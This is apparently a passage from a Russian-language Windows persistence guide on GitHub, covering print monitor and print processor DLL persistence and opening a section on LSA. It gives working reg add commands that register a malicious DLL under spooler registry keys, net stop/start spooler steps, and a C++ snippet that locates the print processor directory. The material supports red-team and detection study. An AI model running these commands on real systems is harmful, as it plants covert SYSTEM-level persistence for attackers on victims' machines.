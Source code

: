     Используя WinAPI: AddMonitor
    Вручную: указав путь к DLL в реестре

Для этого сценария мы будем использовать последний. DLL может быть помещена в папку system32.

### Как это работает?(POC)
- Создаем DLL: Пишем DLL, которая содержит вредоносный код
- Set registry: DLL должна быть установлена в реестре: https://imgur.com/a/v9l3L7q
    
      reg add “hklm\system\currentcontrolset\control\print\monitors\Hadess” /v “Driver” /d “c:\users\lab-10-workgroup\desktop\persist.dll” /t REG_SZ /f
- Login: после входа в систему DLL будет исполнена: https://imgur.com/a/UYbp5zT

## 26. PrintProcessor
Эти DLL также загружаются при загрузке spooler service. 
DLL должна быть помещена в специальную директорию `C:\Windows\System32\spool\prtprocs\x64`, но также она может быть получена с помощью API `GetPrintProcessorDirectory`.

### Как это работает?(POC)
- Создаем DLL: Пишем DLL, которая содержит вредоносный код
- Ищем print processor директорию: пишем легкий код на cpp для поиска директории

        int main()
        {
            DWORD cbNeeded = 0;
            LPBYTE pPrintProcessorInfo = nullptr;

            GetPrintProcessorDirectoryA(NULL, NULL, 1, NULL, NULL, &cbNeeded);

            pPrintProcessorInfo = new BYTE[cbNeeded];
            GetPrintProcessorDirectoryA(NULL, NULL, 1, pPrintProcessorInfo, cbNeeded, &cbNeeded);

            std::cout << (LPCSTR)pPrintProcessorInfo;
        }

- Переносим DLL: DLL должна быть перенесена в полученную директорию: https://imgur.com/a/TVxrBCE
- Set registry: снчала spooler service должна быть остановлена.

      net stop spooler

      reg add “HKLM\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors\hadess” /v “Driver” /d “persist.dll” /t REG_SZ /f

    После того как добавили ключ, стартуем.
      
      net start spooler

    https://imgur.com/a/zZGYKNr

## 27. Local Security Authority(LSA)
LSA или Local Security Authority используется для security management, которую приложения могут использовать для аутентификации и входа пользователей в систему. Действия ниже в неправильном ключе могут
сломать систему.
